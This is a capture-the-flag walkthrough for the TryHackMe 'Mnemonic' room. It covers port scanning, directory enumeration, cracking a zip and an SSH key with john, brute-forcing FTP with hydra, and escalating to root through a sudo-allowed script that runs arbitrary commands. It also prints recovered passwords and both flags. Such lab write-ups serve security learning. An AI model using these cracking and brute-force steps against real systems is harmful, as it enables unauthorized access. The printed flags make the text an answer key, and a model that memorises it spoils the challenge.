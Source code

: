 # [Mnemonic](https://tryhackme.com/room/mnemonic)

> I hope you have fun.

## Scanning

scan the target

```
nmap -sS -sV -p- -T4 10.10.11.40
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/551de815-428c-4bb6-b888-7419f98493b4)

there are 3 open ports (21 ftp, 80 http, 1337 ssh)

## HTTP

view the webpage

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/019d831f-f977-4b9e-8302-f56ffdfacf21)

check /robots.txt, i found a secret endpoint

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/20950a12-0f55-49cc-b0bb-02382a8d5aaf)

## Enumeration

try enumerate the directory

```
gobuster dir -u http://10.10.11.40/webmasters/ -w /usr/share/wordlists/dirb/common.txt -t 30
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/f64a3970-827e-435c-abe7-4d1f80ad1ed3)

next i try the same process with /admin but found nothing interesting, find some backup files

```
gobuster dir -u http://10.10.11.40/webmasters/backups/ -w /usr/share/wordlists/dirb/common.txt -t 30 -x txt,zip
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/3e7e366d-1908-47a2-bf6f-f58f84b64c46)

download the backups.zip, it contains a password

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/d19e57f4-0110-4e5a-9ef4-cf52811d2beb)

## Cracking

crack it with john

```
zip2john backups.zip > hash
john --wordlist=/usr/share/wordlists/rockyou.txt hash
john --show hash
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/3133c0e3-8d8b-4808-b81b-803c95baba63)

we have a message for ftp user

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/d29f2338-e3bc-4e81-94f9-7105472e4d39)

bruteforce ftp login with hydra

```
hydra -l ftpuser -P /usr/share/wordlists/rockyou.txt ftp://10.10.11.40
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/0ce0bf41-6641-4357-b729-91b2f77fa3ab)

login to ftp, you find 2 files id_rsa and not.txt

```
ftp 10.10.11.40
ftpuser
love4ever
ls
cd data-4
ls
get id_rsa
get not.txt
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/65483845-7f81-4048-b192-216b5e2a26b6)

the id_rsa contain a passphrase

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/f89260ad-649b-4f1a-8367-9b2caaaa04ed)

we must crack it before use

```
python2 /usr/share/john/ssh2john.py id_rsa > hash
john --wordlist=/usr/share/wordlists/rockyou.txt hash
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/34d074ba-ea73-4a85-868d-dd3f3e33ab35)

now, ssh into the machine, enter passphrase and password by `bluelove`

```
chmod 600 id_rsa
ssh james@10.10.11.40 -i id_rsa -p 1337
bluelove
bluelove
```

## Exploitation

at james's home folder, you see 2 files 6450.txt and noteforjames.txt as follow

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/68e2aaae-c0cb-4163-88a2-e74f2089c637)

it says "new encryption İmage based name is Mnemonic", so i found a repo in github

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/c1652de7-68a6-4166-9d0e-645de4e959e8)

and i got kick out, cuz the root don't like us here

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/4101f1ac-a66e-4c50-bb7f-ebcc3239ad06)

so, login again, we can't cd but can listing

```
ls -la ../condor
```

i found something in condor

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/4242cdf4-326b-4034-88ab-badbfec50fb3)

```
echo "aHR0cHM6Ly9pLnl0aW1nLmNvbS92aS9LLTk2Sm1DMkFrRS9tYXhyZXNkZWZhdWx0LmpwZw==" | base64 -d
echo "VEhNe2E1ZjgyYTAwZTJmZWVlMzQ2NTI0OWI4NTViZTcxYzAxfQ==" | base64 -d
```

we get an image and first flag

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/7d5d0b70-3711-4acb-9c21-05d0c5cea35b)

| Flag | user.txt |
| --- | --- |
| Answer | THM{a5f82a00e2feee3465249b855be71c01} |

## Privilege Escalation

download the image

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/80c3c11e-e542-4c27-812c-b6156609539f)

decrypt the Mnemonic image

```
git clone https://github.com/MustafaTanguner/Mnemonic
cd Mnemonic
pip3 install colored
pip3 install opencv-python
python3 Mnemonic.py
```

enter location of image file

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/0a6ec9c4-cc1d-487f-a353-bd4e9e43d6f5)

ENCRYPT Message is our 6450.txt at james's home folder

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/03661415-319a-4c2c-aa82-47d04420628e)

back to the machine, we have condor password

```
ssh condor@10.10.11.40 -p 1337
pasificbell1981
```

check sudo permission

```
sudo -l -l
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/25eda361-1f37-49ed-8aad-b97c76a9a085)

review the code at /bin/examplecode.py, function `0 .` allows you to input an execute command

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/9615621b-f3e2-42d1-8126-b4a9ce2b4551)

```
sudo python3 /bin/examplecode.py
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/8137c08e-18ec-4606-9dc9-ee3d7e0c89b8)

```
cat /root/root.txt
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/d10bc4cc-236d-4319-9c39-8fb9385d1c44)

| Flag | root.txt |
| --- | --- |
| Answer | THM{congratulationsyoumadeithashme} |
